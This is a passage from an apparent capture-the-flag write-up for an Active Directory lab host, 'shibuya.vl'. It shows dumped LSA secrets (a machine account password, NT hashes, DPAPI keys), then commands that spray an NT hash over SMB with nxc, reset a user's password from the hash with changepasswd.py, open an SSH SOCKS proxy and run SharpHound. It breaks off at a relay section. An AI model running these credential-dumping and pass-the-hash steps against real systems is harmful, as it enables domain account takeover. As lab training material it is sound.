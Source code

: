 ```SAM```, ```SECURITY```, and ```SYSTEM``` files are critical databases distributed across a DC or Windows machine. They contain sensitive information, including users, passwords and security policies
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:2f006b004e0045004c0045003f0051005800290040004400580060005300520079002600610027002f005c002e002e0053006d0037002200540079005e0044003e004e0056005f00610063003d00270051002e00780075005b0075005c00410056006e004200230066004a0029006f007a002a005700260031005900450064003400240035004b0079004d006f004f002100750035005e0043004e002500430050006e003a00570068005e004e002a0076002a0043005a006c003d00640049002e006d005a002d002d006e0056002000270065007100330062002f00520026006b00690078005b003600670074003900
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1fe837c138d1089c9a0763239cd3cb42
[*] DPAPI_SYSTEM
dpapi_machinekey:0xb31a4d81f2df440f806871a8b5f53a15de12acc1
dpapi_userkey:0xe14c10978f8ee226cbdbcbee9eac18a28b006d06
[*] NL$KM
 0000   92 B9 89 EF 84 2F D6 55  73 67 31 8F E0 02 02 66   ...../.Usg1....f
 0010   F9 81 42 68 8C 3B DF 5D  0A E5 BA F2 4A 2C 43 0E   ..Bh.;.]....J,C.
 0020   1C C5 4F 40 1E F5 98 38  2F A4 17 F3 E9 D9 23 E3   ..O@...8/.....#.
 0030   D1 49 FE 06 B3 2C A1 1A  CB 88 E4 1D 79 9D AE 97   .I...,......y...
NL$KM:92b989ef842fd6557367318fe0020266f98142688c3bdf5d0ae5baf24a2c430e1cc54f401ef598382fa417f3e9d923e3d149fe06b32ca11acb88e41d799dae97
```
We can spray the operator NT hash

```bash
nxc smb shibuya.vl -u users.txt -H '5d...50' --continue-on-success

[+] shibuya.vl\Simon.Watson:5d...50
```
```NOTE : Grab the first flag on the smb /users/simon.watson/desktop/flag.txt```

## SSH Access

Now if we want to ssh, we need to change his password thanks to the hash

```bash
changepasswd.py shibuya.vl/'Simon.Watson'@10.10.103.65 -hashes :'5d..50' -newpass 'Toto01!'
```
Then i make a socks proxy with ssh to be sure i can access everything

```bash
ssh -D 1080 Simon.Watson@10.10.103.65
```
I also run ```SharpHound``` to have a ```Bloodhound```

## Cross Session Relay

The only interesting thing you can see on ```bloodhound``` is this :
